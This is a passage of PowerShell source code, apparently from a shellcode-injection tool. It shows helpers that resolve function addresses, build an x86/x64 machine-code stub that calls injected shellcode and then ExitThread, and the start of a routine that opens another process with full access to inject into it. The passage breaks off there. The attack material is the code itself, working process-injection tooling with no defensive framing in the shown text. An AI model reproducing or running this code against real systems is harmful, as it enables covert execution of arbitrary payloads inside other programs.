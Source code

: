         # Return the address of the function
        Write-Output $GetProcAddress.Invoke($null, @([System.Runtime.InteropServices.HandleRef]$HandleRef, $Procedure))
    }

    # Emits a shellcode stub that when injected will create a thread and pass execution to the main shellcode payload
    function Local:Emit-CallThreadStub ([IntPtr] $BaseAddr, [IntPtr] $ExitThreadAddr, [Int] $Architecture)
    {
        $IntSizePtr = $Architecture / 8

        function Local:ConvertTo-LittleEndian ([IntPtr] $Address)
        {
            $LittleEndianByteArray = New-Object Byte[](0)
            $Address.ToString("X$($IntSizePtr*2)") -split '([A-F0-9]{2})' | ForEach-Object { if ($_) { $LittleEndianByteArray += [Byte] ('0x{0}' -f $_) } }
            [System.Array]::Reverse($LittleEndianByteArray)
            
            Write-Output $LittleEndianByteArray
        }
        
        $CallStub = New-Object Byte[](0)
        
        if ($IntSizePtr -eq 8)
        {
            [Byte[]] $CallStub = 0x48,0xB8                      # MOV   QWORD RAX, &shellcode
            $CallStub += ConvertTo-LittleEndian $BaseAddr       # &shellcode
            $CallStub += 0xFF,0xD0                              # CALL  RAX
            $CallStub += 0x6A,0x00                              # PUSH  BYTE 0
            $CallStub += 0x48,0xB8                              # MOV   QWORD RAX, &ExitThread
            $CallStub += ConvertTo-LittleEndian $ExitThreadAddr # &ExitThread
            $CallStub += 0xFF,0xD0                              # CALL  RAX
        }
        else
        {
            [Byte[]] $CallStub = 0xB8                           # MOV   DWORD EAX, &shellcode
            $CallStub += ConvertTo-LittleEndian $BaseAddr       # &shellcode
            $CallStub += 0xFF,0xD0                              # CALL  EAX
            $CallStub += 0x6A,0x00                              # PUSH  BYTE 0
            $CallStub += 0xB8                                   # MOV   DWORD EAX, &ExitThread
            $CallStub += ConvertTo-LittleEndian $ExitThreadAddr # &ExitThread
            $CallStub += 0xFF,0xD0                              # CALL  EAX
        }
        
        Write-Output $CallStub
    }

    function Local:Inject-RemoteShellcode ([Int] $ProcessID)
    {
        # Open a handle to the process you want to inject into
        $hProcess = $OpenProcess.Invoke(0x001F0FFF, $false, $ProcessID) # ProcessAccessFlags.All (0x001F0FFF)
        